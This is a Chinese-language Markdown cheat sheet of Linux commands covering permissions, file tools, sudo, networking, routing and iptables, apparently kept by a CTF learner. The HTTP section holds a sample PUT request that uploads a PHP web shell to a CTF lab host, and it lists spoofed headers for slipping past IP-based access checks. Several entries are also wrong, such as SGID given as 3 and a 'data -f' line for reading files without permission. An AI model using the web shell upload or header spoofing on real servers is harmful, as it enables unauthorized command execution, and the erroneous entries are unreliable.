# linux

## 通用命令


### 配置快捷打开

```nginx
vim .zshrc

# 设置需要全局打开的文件目录所在
alias typora='/usr/bin/typora'

source ~/.zshrc
```


### 查看计划任务

```nginx
# 列出当前系统上所有服务的启动状态
systemctl list-unit-files --type=service

# 所有文件和脚本，这些是启动时运行的服务脚本
ls /etc/init.d/
```


### 获取信息命令

```nginx
# 查看安装的shell
cat /etc/shells

# 查看本机外网ip
curl ifconfig.me
```


### http

**PUT请求**

```nginx
# 可以向服务器上传或者更新资源
# 案例
PUT /e.php HTTP/1.1
Host: node4.anna.nssctf.cn:28905
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: adminsid=j4lmgm36j0s3rd4oknqsq691l2; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=design
Connection: close
Content-Length: 32

<?php
system($_GET['cmd']);
?>
```


```js
X-Forwarded-For: localhost
Client-ip: 127.0.0.1
Referer: peekaboo.com
Via: Clash.win
User-Agent: Chrome

// 红米Note 4X
User-Agent:Mozilla/5.0 (Linux; Android 7.0; Redmi Note 4X Build/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/76.0.3809.89 Mobile Safari/537.36 T7/12.3 SP-engine/2.25.0 baiduboxapp/12.3.0.11 (Baidu; P1 7.0) NABar/1.0

// iPhone
User-Agent:Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 MicroMessenger/7.0.13(0x17000d2a) NetType/WIFI Language/zh_CN
```

**linux中网卡位置：/sys/class/net/eth0/address**

### curl

> **获取指定url所以支持的请求类型**

```nginx
└─$ curl -i -X OPTIONS "http://node4.anna.nssctf.cn:28905/index.php"
HTTP/1.1 200 OK
Date: Mon, 28 Aug 2023 06:09:07 GMT
Server: Apache/2.4.38 (Debian)
DAV: 1,2
DAV: <http://apache.org/dav/propset/fs/1>
MS-Author-Via: DAV
# 这里会显示
Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,PUT,LOCK,UNLOCK
Content-Length: 0
```


### chgrp

**用于改变文件或者目录的所属群组**

```nginx
# 将misc目录设置为bin用户组
chgrp -v bin misc/

# 参数
-f：不显示错误信息
-h：只对符号连接的文件进行修改
-R：递归处理，对其目录下所有文件一起处理
--version：显示版本信息
```

### chmod

**可以控制文件如何被他人调用**

```nginx
# 参数
u：对该文件拥有者权限增加或减少
g：对文件所属用户组权限增加或减少
o：对文件的其他人权限增加或减少
a：对拥有者和用户组和其他人权限同时进行权限增加或减少
+：增加权限
-：减少权限
=：设置唯一权限

# 修改1.py文件对所有人的执行权限
[~] ❱❱❱ ll 1.py
-rw-r--r-- 1 canoe canoe 138 Jul  7 18:15 1.py

[~] ❱❱❱ chmod a+x 1.py

[~] ❱❱❱ ll 1.py
-rwxr-xr-x 1 canoe canoe 138 Jul  7 18:15 1.py
```

### file

**用于识别文件的类型**

```nginx
# 参数
-b：不显示文件名称
-c：显示详细过程
-L：针对链接指向的实际文件进行类型检测
-z：尝试解读压缩文件内容

# 表示rkhunter-1.4.6.tar.gz 是一个经过gzip压缩的文件，
# 其原始文件名是 rkhunter-1.4.6.tar，
# 最后修改时间是在 2018 年 2 月 24 日 23:11:38。
# 原始文件的大小为 1239040 字节。
❱❱❱ file rkhunter-1.4.6.tar.gz -b
gzip compressed data, 
was "rkhunter-1.4.6.tar", 
last modified: Sat Feb 24 23:11:38 2018, 
from Unix, 
original size modulo 2^32 1239040
```

### mv

**文件或者目录改名，或改变位置**

```nginx
# 参数
-i：存在同名，询问是否覆盖旧文件
-f：强制覆盖
```

### rm

**删除文件或目录**

```nginx
# 参数
-i：删除前一个一个确认
-f：直接删除，不确认
-r：目录及目录里面都删除
```


### find

```nginx
# -name：按照文件名查找
# -iname：按照不区分大小写的文件名查找
# -type：按照文件类型查找（如 -type f 表示查找普通文件）

# -size：按照文件大小查找
find /home/user -size 1M

# -mtime：按照文件修改时间查找


# 查找当前文件夹下（包括子目录）的文件
find . -name 'test.txt'

# 查找当前文件夹下（不包括子目录）的文件
# -maxdepth：指定文件深度
find . -maxdepth 1 -name 'test.txt'

# 通配符查找
find . -name 'auth*'

# 查找最近7天被修改的文件
find . -mtime -7

# 查找当前目录下，5 分钟内被【修改过】的文件
find . -type f -mmin -5

# 查找当前目录下，10 分钟内【状态改变过】的文件
find . -type f -cmin -10

# 查找当前目录下，30 分钟内被【访问过】的文件
find . -type f -amin -30
```

### ln

```nginx
# -s：创建软链接（symbolic link）
# -f：强制执行，覆盖已存在的链接文件
# -i：交互式执行，提示用户是否覆盖已存在的链接文件
# -v：显示操作过程

# 创建一个名为nginx-default的软连接
ln -s /etc/nginx/sites-available/default /home/user/nginx-default

```

### cat

```nginx
# 显示行号输出内容
cat -n /etc/passwd

# 显示行号输入内容，（跳过空白）
cat -b 2.txt

# 遇到两行及以上空白行显示一行
cat -s -n 2.txt

# 在每行结尾除显示【$】
cat -E 2.txt

# 将tab字符显示未^I
cat -T -n 2.txt
```


### vim

> **恢复.swp文件：vim -r filename**

```nginx
# 复制粘贴剪贴
v：进入移动光标选中要复制的内容
y：复制之前v选择的内容
d：剪贴之前v选择的内容
p：粘贴

# 撤销前进
u：撤销
ctrl + r：前进

# 移动光标命令
w：下一个单词
b：上一个单词
e：结尾单词
j：上
k：下
h：左
l：右
0：行开头
$：行结尾
gg：文件最开头
G：文件最末尾

# 插入命令
I：当行光标开头插入文件
A：当行光标结尾插入文件

# 删除
dd：删除当前行
D：删除当前位置到末尾内容

# set
:set number：设置行号
:set filetype=python

# 检测文件类型
file .git/config
```

### touch

**创建一个文件或者目录**

```nginx
# 参数
-a：改变文件读取的时间
-m：改变文件修改的时间
-c：文件不存在时不创建文件，并且不显示任何错误或警告。
	如果文件或者目录存在，它会更新它的访问和修改时间
-d：设定时间日期
-t：设置时间

```

### cp

**复制文件或目录**

```nginx
-a：保留链接、文件属性、目录下所有内容
-d：保留软链接进行复制
-f：覆盖已经存在的文件且不提示
-i：覆盖前需要确认
-p：复制内容和修改时间和访问权限到新文件中
-r：复制目录下所有子目录和文件
-l：不复制文件，只生成链接文件

```

### ls

```nginx
-a：显示所有文件及目录
-l：显示文件型态、权限、拥有者、文件大小
-r：以倒序显示
-t：以文件建立时间显示
-R：目录下有文件，其中文件依次列出

-- 查看文件权限
ls -al 或者 ls -lha /

# 排序查看当前文件下的文件
ls -alt

# c查看桌面上的文件
ls -lh


# 查看文件详细信息
stat	# 可以看文件夹创建时间和修改时间

-- 越权读取文件
data -f 文件名
```

### 系统设置命令

==passwd==

```nginx
-d：删除密码
-f：强制执行
-l：停止账号使用
-S：显示密码信息
-u：启用已被停止的账号
-x：设置密码的有效期
-g：修改群组密码
-i：过期后停止使用账号
-k：
```

==useradd==

**添加用户**

==last==

**用于显示系统开机以来或每月初登录者的信息**

```nginx
# 登录信息
lastb # 错误的尝试登录信息
last  # 最近登录信息
lastlog # 所有用户最近登录信息
```

### 文件操作



```nginx
drwxr-xr-x   2 root root  4096 2009-01-14 17:34 bin 
    文件类型代码：
    [ d ]：目录、
    [ - ]：文件、
    [ l ]：链接、
    [ b ]：块设备文件、用于与块设备驱动程序进行交互，例如硬盘、USB闪存驱动器等
    [ c ]：字符设备文件,用于与设备驱动程序进行交互，例如键盘、鼠标、终端等
    文件权限属性：[ r ]：可读、[ w ]：可写、[ x ]：可执行。

		-- 开头数字代表字母的位置
        0：代表是文件还是目录，还是其他的类型（这里d:表示是目录） 
        123 ：表示拥有人的权限 （这里rwx:代表拥有人有可读，可写，可执行的权限） 
        456：表示同组群使用者权限（这里r-x代表同组群使用者有可读，可执行权限） 
        789：表示其他使用者权限（这里r-x代表其他使用者有可读，可执行权限）

lrwxrwxrwx   1 root root    11 2009-01-14 10:05 cdrom -> media/cdrom

		# 第一个字母：l代表此问链接文件，相当与windows的快捷方式
        # 所有者权限：		读+写+执行=4+2+1=7
        # 组许可权限 ： 	读+写= 4+2=6
        # 其他用户许可权限：读=4
				
				# 特殊权限：	
            SUID=4
            SGID=3
            SBID=1


		# 文件解释
		drwxr-xr-- 2 root root 6 Mar  9 01:37 test
		d：为文件目录权限，后面每三个为一组计算

		# 列出应用程序配置文件
    sudo ufw app list

    # 删除出错的软连接
    sudo rm -rf /usr/bin/python3

    # 新建软连接
    sudo ln -s /usr/bin/python3.9 /usr/bin/python3

    # 查找文件(查找当前文件夹下开头为python的文件)
    find ./ -name "python*"

    # 下载互联网上的文件
    wget 网址

    # centos 查看nginx文件位置
    whereis nginx

    # 查看默认python指向：
    sudo ls -l /usr/bin | grep python 


    # 查看Linux文件的权限：
    ls -l 文件名称

    # 查看linux文件夹的权限：
    ls -ld 文件夹名称（所在目录

    # 修改文件及文件夹权限: 
    sudo chmod -775 文件夹路径
        # 设置所有用户可读取文件 a.conf
        chmod ugo+r a.conf  或 [chmod a+r  a.conf]


    # 设置文件所属用户
    sudo chown <user>:<user> /var/www/sitename

        常用修改权限的命令：
						# 八进制修改
            r、w、x的数字类型代表：r:4、w:2 、x:1
            sudo chmod 600 ××× （只有所有者有读和写的权限）
            sudo chmod 644 ××× （所有者有读和写的权限，组用户只有读的权限）
            sudo chmod 700 ××× （只有所有者有读和写以及执行的权限）
            sudo chmod 666 ××× （每个人都有读和写的权限）
            sudo chmod 777 ××× （每个人都有读和写以及执行的权限）
						# 字符修改
						看chmod命令详解 

    # 移动文件
    mv 源文件 移动到的文件地址

    # 解压缩文件
    tar -xzf 文件名
    
    # 解压zip文件
    sudo apt-get install unzip

    # 解压到当前目录
    unzip xxxxx.zip

		# 解压到指定目录
    unzip file.zip -d 位置

    # 检查zip文件是否损坏
    unzip -t test.zip

		# -l 显示压缩文件内所包含的文件
		# -n 解压缩时不要覆盖原有的文件

    # 删除文件夹
    rm -rf /var/log/httpd

    # 修改文件名
    sudo mv test.txt new.txt

    # Create directory: Change `sitename` to whatever you like
    # 一次性创建多个目录需要加 -p
    sudo mkdir -p /var/www/sitename

    # 设置目录所有者：将 <user> 替换为您的用户名
    sudo chown <user>:<user> /var/www/sitename

    # 设置修正的权限
    sudo chmod 775 /var/www/sitename

    # 新建用户
    adduser name

    # 将用户添加到超级用户组 
    usermod -aG sudo <user>
```

#### 特殊权限

- ==USID==
  - **执行者需要有【x】权限，执行时，执行者获得该文件拥有者权限**
- ==SGID==
  - **执行者需要有【X】权限，执行时，执行者获得该文件所属组权限**
- ==SBIT==
  - **仅对目录有效，对目录设置了，目录中其他用户创建的东西直接由它自己删除、修改**


#### 隐藏权限

- ==lsattr==

  - **显示文件的隐藏权限**

- ==chattr==

  - **修改隐藏权限**

  - ```nginx
    # 【+】：添加一个属性。
    # 【-】：去除一个属性。
    # 【=】：设置一个属性。
    
    # 【+a】：设置只能追加内容
    chattr +a file.txt		# 将给file.txt文件设置只能追加内容的属性
    
    # 【+i】：设置不可变（immutable）属性，防止文件被修改、删除或重命名
    chattr +i file.txt		# 给file.txt文件设置不可变属性。
    # 【-i】：取消不可变属性
    chattr -i file.txt		# 取消file.txt文件的不可变属性。
    
    # 【+u】：当文件删除后，保留其内容的副本，直到系统重启
    chattr +u file.txt		# 给file.txt文件设置保留内容的属性。
    # 【-u】：取消保留内容属性
    chattr -u file.txt		# 给file.txt文件设置保留内容的属性。
    
    # 【+d】：设置目录不可迁移（不可删除）属性
    chattr +d directory		# 给directory目录设置不可迁移属性。
    
    # 【+s】：设置文件或目录被安全删除（Secure Deletion）时进行数据擦除
    chattr +s file.txt
    ```

    


### 用户操作

- **linux：多用户，多任务系统**
  - **超级用户**
    - **权限为：==【#】==**
    - **UID与GID为：0**
  - **普通用户**
    - **权限为：==【$】==**
    - **UID范围：【500 ~ 65535】**
  - **虚拟用户**
    - **UID范围：【1 ~ 499】**
    - **默认不能登录，主要是为了运行服务或进程，不关联真实登录权限**
- **WIndows：单用户，只能登录一个用户，第二个用户登录，第一个会断开**


==su==

**允许当前用户切换到其他用户账号**

```nginx
# -: 以目标用户的环境变量和工作目录登录，默认为root用户。例如：
su -

# <username>: 指定要切换到的目标用户账号。例如：
su test

# -c <command>: 在切换用户后执行指定的命令，并返回到原始用户。例如：
su -c "ls -l" test
	# 运行脚本或程序：如果需要在目标用户下运行特定的脚本或程序，可以使用-c参数来实现。例如：
	su -c "/path/to/script.sh" test
	# 修改只有管理员权限才能访问的文件或目录。
	# 使用-c参数可以在切换到目标用户后以其权限执行对应的命令
	su -c "chmod 600 /path/to/file" root

# -s <shell>: 指定在切换用户后要使用的shell。例如：
su -s /bin/bash test

# -l: 与-参数相同，以目标用户的环境变量和工作目录登录。例如：
su -l

# -m: 与-参数相同，以目标用户的环境变量登录，但不改变工作目录。例如：
su -m
```

==sudo==

**用于以超级用户（root）权限执行命令**

```nginx
# 【-u】 <user>：指定要以哪个用户的身份来执行命令。例如：
sudo -u test ls

# 【-s】：指定以目标用户的shell环境来执行命令
sudo -s		# 会使用root的shell环境打开一个新的终端

# 【-i】：重置用户环境变量，使其与目标用户相同
sudo -i		# 使用root的环境变量登录，并切换到root用户的工作目录

# 【-E】：保留用户环境变量，不更改为目标用户的环境变量
sudo -E command	# 使用root执行command命令，但保留当前用户的环境变量

# 【-H】：设置HOME环境变量为目标用户的主目录
sudo -H command	# 使用root执行command命令，同时将HOME环境变量设置为目标用户的主目录

# 【-k】：清除sudo缓存的授权信息。例如
sudo -k		# 除之前输入的sudo密码，下次再执行sudo命令时需要重新输入密码

# 【-v】：在一段时间内验证用户无需再次输入密码。例如
sudo -v		# 会提示用户输入密码，然后在一段时间内免去再次输入密码的过程
```


### 解压缩命令

==gunzip==

```nginx
-f：强行解压
-l：列出压缩文件相关信息
-q：不显示警告信息
```

==tar==


### 系统进程

==ps==

```nginx
ps -aux
```

==kill==

```nginx
kill pid
```


###  系统空间查看

==top==

**显示系统当前的进程和其他状况**

```nginx

```

==df==

**检查文件系统的磁盘空间占用情况**

```nginx

```

==du==

**显示每个文件和目录的磁盘使用空间**

```nginx

```

### 系统目录结构

==bin==

```nginx
# 主要存在命令
cat
chmod
chown
date
mv
mkdir
cp
bash
```


### 进程

```nginx
# 查找进程
ps -ef | grep 

# 查看系统所有进程
ps aux

# 以全屏交互式的界面显示进程排名
top

# 以树状图的方式展现进程之间的派生关系
pstree -aup

/**
	USER：启动该进程的用户账号名称
	PID：该进程的ID号，在当前系统中是唯一的
	START：启动该进程的时间
	TIME：该进程占用CPU时间
	CPU：CPU占用的百分比
	MEM：内存占用的百分比
	VSZ：占用虚拟内存（swap空间）的大小
	RSS：占用常驻内存（物理内存）的大小
	TTY：该进程在哪个终端上运行。“？”表未知或不需要终端
	STAT：显示了进程当前的状态，S休眠、R运行、Z僵死、<高优先级）、N低优先级、s父进程、+前台进程
		。对处于僵死状态的进程应予以手动终止
	
*/
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.4 167880  8804 ?        Ss   5月22   0:02 /sbin/init splash

```


### 端口

```nginx
# 查看端口状态
netstat -tunpl |grep 22

# 查看端口占用
lsof -i:端口号

# 开放端口
sudo ufw status
```


### vm没有网络

```nginx
# 编辑dns文件
vim  /etc/resolv.conf

# kali（Debian）重启网卡
service networking restart
/etc/init.d/networking restart

# 启用网卡
sudo ifconfig eth0 up  
sudo ifconfig -a # 查看IP
sudo dhclient eth0  #  分配IP

# dns配置文件
sudo vim /etc/resolv.conf
# 测试dns是否可用
nslookup www.baidu.com
# 不可用徐再次配置文件加入
nameserver 8.8.8.8
nameserver 114.114.114.114
# 如果在执行完service networking restart命令后，dns恢复原样
# 是因为设置了NetworkManager服务所致


# ifconfig -a 只有localhost，设置静态ip和dhcp的地方
sudo vim /etc/network/interfaces

# 动态dhcp方式
auto eth0
iface eth0 inet dhcp

# 静态方式
auto eth0
iface eth0 inet static
address 外面本地ip地址
netmask 外面本地ip地址的子网掩码
gateway 外面本地ip地址的网关

# dhcp静态
auto eth0
iface eth0 inet dhcp
address 外面本地ip地址
netmask 外面本地ip地址的子网掩码
gateway 外面本地ip地址的网关

# 网路未托管配置，设置托管后就不能手动配置dns的nameserver
cd /etc/NetworkManager/
sudo vim NetworkManager.conf
将false改为true

# 查看网络状态
systemctl status networking.service

```

## 网络配置

- ==kali 网卡位置：**`/etc/network/interfaces`**==

  - **配置静态ip**

  - ```nginx
    auto eth0
    iface eth0 inet static
    address 192.168.0.100    # 设置静态 IP 地址
    netmask 255.255.255.0    # 设置子网掩码
    gateway 192.168.0.1      # 设置默认网关
    dns-nameservers 8.8.8.8  # 设置 DNS 服务器（可选）
    
    # 重启网络服务
    sudo systemctl restart networking
    ```

  - **配置动态ip**

  - ```nginx
    auto eth0
    iface eth0 inet dhcp
    
    # 重启网络服务
    sudo systemctl restart networking
    ```


### 路由

> **路由器的功能：实现一个网段到另一个网段之间的通信**
>
> - **分类**
>   - **静态路由**
>     - **手工指定，安全保密性高，不占带宽，不会产生更新流量**
>   - **动态路由**
>     - 需要路由器频繁交换各自的路由表，可以对比分析拓扑图
>   - **默认路由**
>   - **直连路由**
> - **查看路由表命令：`route`**
>
> 

- ==route==

  - **设置和查看路由表**

    ```nginx
    # 【add】：添加一条路由
    # 将添加一条到目标网络10.0.0.0/24的路由，下一跳网关为192.168.1.1，出接口为eth0
    route add -net 10.0.0.0/24 gw 192.168.1.1 dev eth0
    
    # 添加默认路由
    route add default gw 192.168.1.1
    
    # 【-p】：将路由添加到永久路由表中
    # 将一条永久路由添加到目标网络 192.168.0.0/24，下一跳网关为 10.0.0.1。
    route -p add 192.168.0.0 mask 255.255.255.0 10.0.0.1
    
    # 【-netmask】：手动指定子网掩码
    # 添加一条目标网络为 172.16.0.0/12 的路由，下一跳网关为 192.168.1.1
    route add 172.16.0.0 netmask 255.240.0.0 gw 192.168.1.1
    
    # 【del】：删除一条路由
    route del -net 10.0.0.0/24		# 删除目标网络为10.0.0.0/24的路由。
    
    # 【change】：修改一条已存在的路由
    route change default gw 192.168.1.254	# 修改默认路由的下一跳网关为192.168.1.254
    
    # 【-host】：指定一个主机地址而不是一个网络地址
    # 添加一条到主机 192.168.1.100 的路由，下一跳网关为 10.0.0.1。
    route add -host 192.168.1.100 gw 10.0.0.1
    
    
    # 【show】：显示当前的路由表
    route show
    
    # 【-n】：以数字格式显示IP地址和网络掩码
    route -n
    
    # flush：清空路由表
    route flush
    
    # 【-A】：指定地址家族
    route -A inet6		# 显示IPv6路由表
    ```


### DNS

- **域名系统**

- **运行在UDP协议上，端口是53**

- **kali DNS文件存放位置：`/etc/resolv.conf`**

  - **指定dns服务器的地址**

  - ```nginx
    # Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
    #     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
    nameserver 8.8.8.8
    nameserver 8.8.4.4
    ```

- **kali hosts文件存放位置：`/etc/hosts`**

  - **IP地址与域名的映射**

- **kali host.conf文件存放位置：`/etc/host.conf`**

  - **用于指定主机解析顺序**

  - ```nginx
    # order：指定主机名解析的顺序。常见的取值为 bind, hosts 或 hosts, bind。
    # bind 表示通过 DNS 解析主机名，
    # 而 hosts 表示通过 /etc/hosts 文件解析主机名。
    # multi：指定多个 IP 地址对应同一个主机名时的处理方式。常见的取值为 on 或 off
    
    order bind, hosts
    multi on
    
    # 上述示例配置文件指定了首先通过 DNS 进行主机名解析，
    # 然后再通过 /etc/hosts 文件进行解析。
    # 同时，当有多个 IP 地址对应同一个主机名时，系统会尝试连接所有的 IP 地址
    ```


### 网络状态

- ==ifconfig==

  - ```nginx
    # ifconfig：显示所有网络接口的信息。
    ifconfig
    
    # ifconfig <interface>：显示指定网络接口（如eth0、wlan0）的信息。
    ifconfig eth0
    
    # ifconfig <interface> up：激活指定网络接口。
    ifconfig eth0 up
    
    # ifconfig <interface> down：禁用指定网络接口。
    ifconfig eth0 down
    
    # ifconfig <interface> <IP address>：为指定网络接口设置IP地址。
    ifconfig eth0 192.168.1.100
    
    # ifconfig <interface> netmask <netmask>：为指定网络接口设置子网掩码。
    ifconfig eth0 netmask 255.255.255.0
    
    # ifconfig <interface> hw <MAC address>：为指定网络接口设置MAC地址。
    ifconfig eth0 hw ether 00:11:22:33:44:55
    
    # ifconfig -a：显示所有网络接口的详细信息，包括未激活的接口。
    ifconfig -a
    
    # ifconfig -s：以简洁格式显示网络接口的摘要信息，包括接口名、MTU和状态等。
    ifconfig -s
    
    # ifconfig -v：显示详细信息，包括更多的配置选项。
    ifconfig -v
    ```

- **netstat**

  - **基于Netstat命令行工具的指令，可以查询网络套接字连接情况（tcp、udp、unix套接字）**

  - **还可以列出：路由表、接口状态、多播成员**

  - ```nginx
    # 显示所有活动的网络连接，包括监听和已建立的连接
    netstat -a
    
    # 显示TCP协议的网络连接
    netstat -t
    
    # 显示UDP协议的网络连接
    netstat -u
    
    # 以数字形式显示IP地址和端口号，而不进行主机名和服务名称的解析。
    netstat -n
    
    # 显示建立连接所使用的程序或进程的PID
    netstat -p
    
    # 显示路由表信息。
    netstat -r
    
    # 显示网络统计信息，如传输的数据包数量、错误统计等
    netstat -s
    
    # 显示正在监听的网络连接
    netstat -l
    
    # 显示网络接口的信息
    netstat -i
    
    # 连续显示网络状态，每隔一段时间刷新一次。
    netstat -c
    ```

    ```nginx
    # 列出所有tcp端口
    netstat -at
    
    # 只列出所有监听tcp端口
    netstat -lt 
    ```

    

## 软件编译

- **源码编译**

  - **使用gcc编译成目标文件**
  - **使用gcc编译目标文件生成二进制文件**

- **==make==**

  - **make是一个程序**

  - **执行它的时候会当前目录下搜索Makefile文件**

    - Makefile文件记录了源码如何编译的详细信息

- ==config、configure==
  - **检查用户的操作环境，以及是否具备所需功能**
  - **检查完毕后会自动生成MakeFile文件**
  - **通常这个检查程序的文件名为`config`或者`configure`**
- **安装过程**
  - 下载软件解压
  - 看install和readme介绍文件
  - configure生成MakeFile文件
  - make clean;make 将源码编译成二进制文件
  - make install 将二进制文件安装到指定目录

   

### rpm

**查询的位置：`/var/lib/rpm/`目录下的数据库文件**

```nginx
# -i：等于install
# -v：显示详细安装画面
# -h：显示安装进度
rpm -ivh name.rpm


# 暴力安装参数
# -nodeps：发生软件属性相依问题无法安装
# -replacefiles：文件已安装、但版本不合，使用这个覆盖安装
# -replacepkgs：重新安装已安装的软件
# -force：上面两个replace参数的综合体
```

```nginx
# 查询已安装的软件包
rpm -qa

# 仅查询后面接的软件是否有安装
rpm -q package_name

# 列出软件的详细提示、开发商、版本、说明
rpm -qi package_name

# 找出该文件属于哪一个已安装的软件
rpm -qi package_name

# 搜索特定软件包是否已安装
rpm -q package_name

# 查看未安装软件内的提示
rom -qp package_name

# 卸载软件包
sudo rpm -e package_name

# 卸载软件包出现属性相依无法移除
# 重建数据库
rpm --rebuilddb
```


## 防火墙

**介绍**

- **针对TCP/IP数据包实施过滤和限制属于：包过滤防火墙（网络层防火墙）**

- **`netfilter、iptables`都用来指向linux防火墙**

  - `netfilter`：**位于linux内核中的包过滤，称为“内核态”**
  - `iptables`：位于`/sbin/iptables`，**用来管理防火墙规则工具，称为“用户态”**

- **`iptables`通过控制端口来控制服务，它的内核模块就是使用`netfilter`**

- **在 Linux 防火墙中，iptables 防火墙使用表（tables）和链（chains）来管理网络流量**

  - **链**：**数据包传播的的路径**，它是众多规则的检查清单，可以有一个或多个规则

  - **表**：它可以提供特定的功能，**是用来容纳各种规则链**

    - `iptables`**中内置了4个表，每个表中内涵着各种链**

      - ```nginx
        filter表		# 包过滤
        	Input链				# 处理入站数据包
        	Output链			  # 处理出站数据包
        	forword链			# 处理转发数据包
        
        nat表			# 网络地址转换包含：源、目的地址、端口转换使用规则
        	prerouting链		# 在数据包到达目标之前进行处理，用于网络地址转换
        	postrouting链	# 在数据包离开系统之前进行处理，用于 NAT
        
        mangle表		# 包重构或修改
        	prerouting链：	# 在数据包到达目标之前进行处理，可以修改数据包的头部信息
        	Output链：			# 用于对从本地生成的数据包进行修改
        
        raw表			# 数据跟踪处理
        	prerouting链：	# 在数据包到达目标之前进行处理，可以设置连接跟踪的规则
        	Output链：			# 用于对从本地生成的数据包进行处理
        ```
        
      - ```nginx
        # 规则表之间的顺序
        raw -> mangle -> nat -> filter
        
        # 规则链之间的顺序
        入站链：prerouting、input
        出站链：output、postrouting
        转发链：prerouting、forward、postrouting
        
        # 规则链的匹配顺序
        按顺序依次检查，匹配就停止，若找不到相匹配的规则，则按该链默认策略处理
        ```
      
      - 相匹配流程
      
        - 网络A进来，首先通过raw表的prerouting链，确定是否进行状态跟踪
          - 同时mangle表的prerouting链也在进行路由选择前对其设置标记并处理
          - 同时nat表的prerouting链修改源，端口、ip地址、目标地址
        - 然后进行路由选择，看是转发还是input，
          - 是转发，将流量发送到mangle表和filter表中的forward链处理，然后发送到mangle表和nat表的postrouting链处理，处理完成后出站，到网络B
          - 是input，将流量发送到mangle表和filter表中的input链处理
            - 然后再将其发送到本机的应用进程
            - 然后本机应用数据传出，首先经过路由选择，然后4个表对output链处理
            - 然后将数据传输到mangle表和nat表的postrouting链处理
  
